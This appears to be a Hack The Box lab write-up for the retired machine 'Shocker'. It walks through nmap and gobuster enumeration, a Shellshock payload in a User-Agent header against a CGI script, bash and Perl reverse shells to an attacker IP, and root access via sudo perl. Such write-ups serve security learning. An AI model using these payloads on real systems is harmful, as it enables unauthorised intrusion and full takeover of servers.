 # Hack The Box - Shocker

**Difficulty:** Easy  
**OS:** Linux  
**Technique:** Shellshock → Reverse shell → Sudo abuse (perl)  
**Flags:** 2 (user.txt, root.txt)

---

## 🧠 Overview

Shocker is a retired Hack The Box machine that leverages a Shellshock vulnerability in a CGI script to gain initial access, followed by privilege escalation through `sudo` permissions to execute `perl` as root.

---

## 🔍 Enumeration

### Nmap TCP Scan:

```bash
nmap -sC -sV -Pn -oN nmap/full 10.10.10.56
```

Result:

- **Port 80** open: Apache httpd 2.4.18 (Ubuntu)
    

No robots.txt. Web server displays a default Apache page.

### Directory brute-force:

```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirb/common.txt -x sh,html,php -o gobuster.txt
```

Found:

- `/cgi-bin/` → standard directory for CGI scripts
    
- `/cgi-bin/user.sh` → accessible file
    

Testing it manually returns HTTP 500 (Internal Server Error), but hints at a possible Bash CGI vulnerability.

---

## 💥 Exploitation (Shellshock)

Shellshock vulnerability in Bash allows remote command execution when improperly handling headers.

### Burp Suite Testing:

Send this crafted request to `/cgi-bin/user.sh`:

```http
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :; }; echo; echo; /bin/bash -c 'id'
```

Response includes:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

✅ Code execution confirmed.

### Reverse Shell:

1. Start listener:
    

```bash
nc -lvnp 4444
```

2. Send this payload (via Burp Repeater):
    

```http
User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.X/4444 0>&1'
```

> Replace `10.10.14.X` with your VPN IP

✅ Reverse shell obtained as user `shelly`

---

## ⬆️ Privilege Escalation

Check sudo permissions:

```bash
sudo -l
```

Result:

```
User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
```

### Option 1: Direct root shell

```bash
sudo perl -e 'exec "/bin/bash";'
```

### Option 2: Reverse shell as root (recommended)

1. On Kali:
    

```bash
nc -lvnp 4445
```

2. On target:
    

```bash
sudo perl -e 'use Socket;$i="10.10.14.X";$p=4445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

✅ You now have root shell!

---

## 🧼 Post Exploitation

### Stabilize Shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

### Capture the Flags:

```bash
cat /home/shelly/user.txt
cat /root/root.txt
```

---

## 🧠 Lessons Learned

- The presence of `/cgi-bin/` should raise CGI-related concerns
    
- Shellshock is still relevant in legacy systems
    
- Always check `sudo -l` — a single allowed binary (like `perl`) can lead to full root access
    

---

## ✅ Root Summary

|Vector|Technique|
|---|---|
|Initial Access|Shellshock via CGI Bash script|
|PrivEsc|`sudo /usr/bin/perl` (NOPASSWD)|
|Result|Root shell + both flags|

---

✔️ Machine fully rooted and documented.
